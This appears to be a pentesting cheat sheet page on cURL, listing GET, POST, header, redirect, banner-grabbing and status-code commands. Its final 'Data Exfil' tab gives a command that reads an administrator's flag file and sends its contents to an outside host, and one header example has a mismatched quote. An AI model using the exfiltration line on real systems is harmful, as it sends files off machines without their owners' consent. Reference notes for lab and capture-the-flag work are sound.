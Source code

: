 # cURL

## Usage

{% tabs %}
{% tab title="GET" %}
```bash
curl http://example.com
```
{% endtab %}

{% tab title="POST" %}
```bash
# When -d is used it defaults to POST
curl -d 'username=user&password=pass' http://example.com/register
```
{% endtab %}

{% tab title="Headers" %}
{% code overflow="wrap" %}
```bash
# Defaults to 'application/x-www-form-urlencoded'
curl -H 'Content-Type: application/json" -d '{"username":"user","password":"pass"}' http://example.com/register
```
{% endcode %}
{% endtab %}

{% tab title="Response Headers" %}
```bash
# Defaults to returns just the response body
curl -i http://example.com/register
```
{% endtab %}

{% tab title="Redirections" %}
```bash
curl -L <URL>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Banner Grabbing" %}
```bash
curl <--head | -I> <IP:PORT>
```
{% endtab %}

{% tab title="Status Code Extraction" %}
```bash
curl -s <URL> -L -o /dev/null -w "%{http_code}"
```
{% endtab %}

{% tab title="JSON" %}
```bash
curl <URL> | json_pp
```
{% endtab %}

{% tab title="Data Exfil" %}
```bash
curl http://10.10.14.10/$(type c:\users\administrator\desktop\flag.txt)
```
{% endtab %}
{% endtabs %}
